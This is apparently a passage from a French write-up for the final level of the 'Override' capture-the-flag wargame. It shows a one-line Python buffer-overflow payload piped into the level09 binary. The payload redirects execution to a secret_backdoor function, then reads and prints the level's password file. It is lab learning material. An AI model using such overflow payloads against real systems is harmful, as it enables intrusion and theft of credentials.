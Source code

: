 Oups, je n'ai effectivement qu'un seul appel système possible dans secret_backdoor, je l'utilise pour cat à la place :

```bash
$ (python -c "print('\x90' * 40 + '\xd0' + '\n' + '\x90' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1])" && cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

Et j'en ai fini d'Override ! :)
Merci de nous avoir écouté avec patience.
